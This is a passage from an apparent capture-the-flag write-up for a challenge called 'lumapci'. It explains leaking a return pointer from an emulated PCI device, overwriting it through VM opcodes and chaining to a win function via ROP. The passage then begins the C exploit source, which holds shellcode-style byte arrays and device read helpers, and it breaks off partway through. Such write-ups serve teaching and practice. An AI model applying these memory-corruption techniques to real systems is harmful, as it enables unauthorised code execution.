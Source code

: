we used
`pciwrite(0x50, 0x100000 + 0x28)` to set `r0` to return pointer offset
and called `pciwrite(0x128, 1)` to execute vm.

Next, we read `r1` using `pciread(0x58)` to get return pointer leak.

The next vm program is to set the return pointer to some `ret` instruction to align the stack and the following address for ROP is the win function (`luma_math_hacks`).

```
opc_store r1, r0
opc_store r3, r2
opc_ret
```

we had to set register `r1` to our chosen `ret` instruction,
`r3` to the win function address (generated from the leaked function) and `r0` and `r2` to stack offsets.

Full code can be found at: [exploit](https://github.com/CyberHeroRS/writeups/tree/main/TFC/lumapci/exploit)

```c
#include <fcntl.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include "edu.h"
#include <stdint.h>

#define SHELLCODE_LEN 128
uint8_t shellcode[SHELLCODE_LEN] = {0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 17, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};

#define SHELLCODE_LEN1 128
uint8_t shellcode1[SHELLCODE_LEN1] = {0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 33, 32, 35, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};


#define CHECKSUM_LEN 18176
uint8_t checksum[CHECKSUM_LEN] = { /*magic blob*/};


static const char *const device_path = "/dev/edu";

static bool parse_int_arg(const char *s, unsigned long long int *val)
{
	const bool is_hex = s[0] == '0' && (s[1] == 'x' || s[1] == 'X');
	return sscanf(s, is_hex ? "%llx" : "%llu", val) == 1;
}

int fd;
int ret;

uint64_t pciread(uint64_t address)
{
	uint64_t addr = address;
	uint64_t val = 0;
```